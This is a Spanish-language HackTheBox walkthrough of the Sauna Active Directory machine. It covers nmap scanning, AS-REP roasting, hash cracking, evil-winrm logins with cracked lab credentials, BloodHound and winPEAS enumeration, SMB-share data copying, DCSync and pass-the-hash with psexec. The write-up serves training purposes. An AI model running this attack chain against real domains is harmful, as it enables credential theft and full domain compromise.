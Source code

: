 # Sauna HTB

Buenas a todos, hoy voy a estar resolviendo la maquina Sauna de HackTheBox, es una maquina Windows de dificultad facil, en ella vamos a tocar Directorio Activo.

![images/Untitled.png](images/Untitled.png)

# **ENUMERACIÓN CON NMAP**

Lo primero de todo como siempre será enumerar que puertos tiene abiertos la maquina, para ellos vamos a utilizar la herramienta "nmap" con la que haremos un escaneo exhaustivo de puertos.

Para hacer un "Fast Scan" de puertos, siempre suelo utilizar esta sintaxis:

`nmap -sS —min-rate 5000 -p- —open -n -Pn -vvv <IPMACHINE> -oN <FILENAME>` 

![images/Untitled%201.png](images/Untitled%201.png)

Yo lo exporto en formato Grep para extraer los puertos con la utilidad "extractPorts" del Youtuber/Streamer "S4vitaar".

Esta utilidad me copia los puertos en la clipboard. Os comparto el Script por aquí pero recordad dejar una estrellita en el Github de S4vitar: (solo tenéis que tener instalado xclip y pegar este código en la .bashrc o .zshrc)

[https://pastebin.com/tYpwpauW](https://pastebin.com/tYpwpauW) 

![images/Untitled%202.png](images/Untitled%202.png)

Ahora vamos a enumerar versiones y servicios de todos los puertos con Nmap:

`nmap -sC -sV -p<PUERTOS> <IPMACHINE> -oN <FILENAME>`

![images/Untitled%203.png](images/Untitled%203.png)

Vemos que nmap nos arroja un nombre de dominio llamado: EGOTISTICAL-BANK.LOCAL , vamos a añadirlo al /etc/hosts junto con sauna.htb

Después de enumerar un poco los puertos, no veo nada interesante en el puerto 445 (SAMBA) un puerto que siempre es muy importante de echarle un vistazo, pero no tenemos acceso para poder ver los recursos, así que voy a ir directamente al servicio web que corre en el puerto 80. 

![images/Untitled%204.png](images/Untitled%204.png)

Vemos en About Us que hay unos nombres de usuarios con los que podriamos crear posibles usuarios:

![images/Untitled%205.png](images/Untitled%205.png)

![images/Untitled%206.png](images/Untitled%206.png)

Con la utilidad GetNPUsers.py, podemos hacer un ataque ASP-RESP Roasting, intentararemos obtener algun hash:

`python3 GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -userfile users -format hashcat -outputfile hash -dc-ip 10.10.10.175`

![images/Untitled%207.png](images/Untitled%207.png)

Vamos a intentar crackear con john el hash:

![images/Untitled%208.png](images/Untitled%208.png)

Ya tenemos la contraseña del usuario `fsmith:Thestrokes23`

Vamos a intentar conectarnos al sistema con Evil-WinRM:

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

![images/Untitled%209.png](images/Untitled%209.png)

![images/Untitled%2010.png](images/Untitled%2010.png)

# **PRIV. ESCALATION ROOT**

Nos compartimos un servidor http con python con el comando :

`python3 -m http.server 80`

![images/Untitled%2011.png](images/Untitled%2011.png)

Pasamos el script de powershell `SharpHound.ps1` a la maquina y ejecutamos el comando :

`Invoke-BloodHound -CollectionMethod All`

![images/Untitled%2012.png](images/Untitled%2012.png)

Para que nos haga una recopilacion de todo el sistema y nos lo guarde en un .zip, que nos vamos a pasar a nuestra maquina, para ello compartimos una carpeta de nuestro sistema con la maquina:

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![images/Untitled%2013.png](images/Untitled%2013.png)

Y en la maquina remota :

`net use \\IP\share /u:pwned password123`

De esta manera nos compartimos la carpeta actual y podemos copiar el .zip a nuestra maquina:

`copy <FILENAME.ZIP> \\IP\share`

![images/Untitled%2014.png](images/Untitled%2014.png)

Abrimos nuestro BloodHound y agregamos el .zip para ver de que forma podemos escalar privilegios:

Enumerando un poco encontramos que hay un usuario (SVC_LOANGMGR) con el que podríamos convertirnos en Domain Admins:

![images/Untitled%2015.png](images/Untitled%2015.png)

Vamos a enumerar un poco mas el sistema para ver si conseguimos convertirnos en ese usuario, voy a utilizar Invoke-winPEAS.ps1, me lo comparto de la misma forma que antes y ejecuto:

`Invoke-winPeas`

Y nos reporta unas credenciales de un usuario llamado svc_loanmanager: 

![images/Untitled%2016.png](images/Untitled%2016.png)

Vamos a intentar conectarnos a esa cuenta a traves de evil-winrm:

![images/Untitled%2017.png](images/Untitled%2017.png)

Si nos fijamos bien no hay ningun usuario llamado svc-loanmanager:

![images/Untitled%2018.png](images/Untitled%2018.png)

Vamos a intentar utilizar esas credenciales para el usuario que necesitamos svc_loanmgr:

![images/Untitled%2019.png](images/Untitled%2019.png)

Estamos dentro de la cuenta que necesitamos, ahora toca escalar privilegios tal y como nos muestra BloodHound:

![images/Untitled%2020.png](images/Untitled%2020.png)

Podemos realizar un ataque DCSync con el usuario SVC_LOANMGR, Para extraer credenciales del controlador de dominio sin ejecución de código en él podemos usar la herramienta secretsdump de impacket o con mimikatz como dice BloodHound:

![images/Untitled%2021.png](images/Untitled%2021.png)

Ya tenemos el hash del administrador del dominio, podemos usar la herramienta psexec de impacket para conectarnos a la maquina sin necesidad de saber su contraseña, solo con su hash es suficiente:

![images/Untitled%2022.png](images/Untitled%2022.png)

Espero que os haya gustado, a mi me ha encantado, las maquinas de Directorio Activo son muy divertidas de vulnerar. Hasta la próxima.